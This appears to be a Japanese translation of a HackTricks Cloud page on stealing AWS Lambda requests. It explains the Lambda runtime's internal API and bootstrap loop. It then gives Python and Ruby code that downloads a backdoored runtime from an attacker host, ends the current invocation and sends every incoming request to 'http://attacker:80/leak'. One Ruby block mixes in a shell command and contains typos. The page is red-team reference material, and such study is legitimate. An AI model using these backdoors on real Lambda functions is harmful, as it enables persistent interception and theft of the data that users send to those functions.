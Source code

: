 # AWS - Lambda リクエストの盗み方

<details>

<summary><strong>AWSのハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## はじめに <a href="#python-runtime" id="python-runtime"></a>

この攻撃は、実行中のLambdaに何らかの**アクセスがある**ことを前提としています。\
また、重要な点として、**Lambdaの呼び出しは完全には分離されていないが、隔離されている**ということです。同じ実行環境で、同時には実行されませんが、実行される可能性があります。これを念頭に置いて、その環境を詳しく見ていきましょう。

### 分離

Lambdaの分離は次のcgroupsを使用します:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

プレフィックス 'sandbox' は一般的なコンテナエンジン(docker, podman, LXD, rkt)には一致しなかったため、独自のコンテナエンジンであり、内部的には[runC](https://github.com/opencontainers/runc)のようなオープンソースのコンテナランタイムを使用している可能性があります。

### Lambdaの仕組み  <a href="#python-runtime" id="python-runtime"></a>

これがpython Lambdaのアーキテクチャのようです:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. コンテナの外部にあるプロセス（initバイナリ内で "**slicer**" と呼ばれている）が共有メモリを介して呼び出しイベントを **init** プロセスに送信します。
2. initプロセスはポート9001（ハードコード）でHTTPサーバーを設定し、いくつかのエンドポイントを公開します:
   1. /2018-06-01/runtime/invocation/**next** – 次の呼び出しイベントを取得
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – 呼び出しのハンドラー応答を返す
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – 実行エラーを返す
3. `bootstrap.py`では、次のループが**initプロセスから新しいイベントを問い合わせ**、それから**ユーザーの関数を呼び出して**処理します（ここで、アップロードしたリクエストハンドラーが実行されます）。\


<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. **ハンドラーの応答は次のエンドポイントのいずれかを通じてinitプロセスに送り返されます**:
   1. `/{invoke-id}/response` – ユーザーハンドラーが正常に実行された場合
   2. `/{invoke-id}/error` – 呼び出しの処理中に例外が発生した場合

## 技術の要約 <a href="#python-runtime" id="python-runtime"></a>

Lambda関数に送信されたデータを**傍受する**ために、**bootstrapスクリプト**を悪意のあるコードに**置き換える**ことが可能です。\
他の言語での他のエンジンも、その言語で書かれた別の**bootstrapスクリプト**を持っているので、これはpythonだけでなく、他の言語を使用する他のlambdasでも行うことができます。

## Python <a href="#python-runtime" id="python-runtime"></a>

Lambdaから**`/var/runtime/bootstrap.py`** をダウンロードする（または単に**自分のlambda**を立ち上げて取得する）し、Lambdaに送信されるすべてのデータを漏洩させるバックドアを追加します。次のような数行を追加するだけです:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### ランタイムの置き換え

新しい**`boostrap.py`が作成された**ので、それを**ダウンロード**し、現在のlambda**呼び出しを終了**して、正規のものと**置き換える**ために実行することが可能です:
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
または、以前に行ったように呼び出しを終了し、新しいブートストラップを実行し、情報を抜き取る[twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py)を使用することもできます。

{% hint style="warning" %}
Lambda関数が5〜15分間使用されない場合、シャットダウンされ、次回呼び出されたときにすべての変更が失われます。
{% endhint %}

## Ruby ランタイム <a href="#ruby-runtime" id="ruby-runtime"></a>

Rubyでは、バックドアを追加したいファイルはシステムから取得するか、自分のLambdaを実行して**`/var/runtime/lib/runtime.rb`** ファイルです。

Pythonバージョンで行ったのと同じくらい簡単にバックドアを追加できます：
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
次に、pythonバージョンで行ったことを少し変更して実行するだけです：

* **バックドアをディレクトリにダウンロードする**
* **シンボリックリンク** `/var/runtime/lib/*` をバックドアがあるディレクトリとリンクする
* 現在のlambda呼び出しを終了する
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSハッキング</strong>をゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
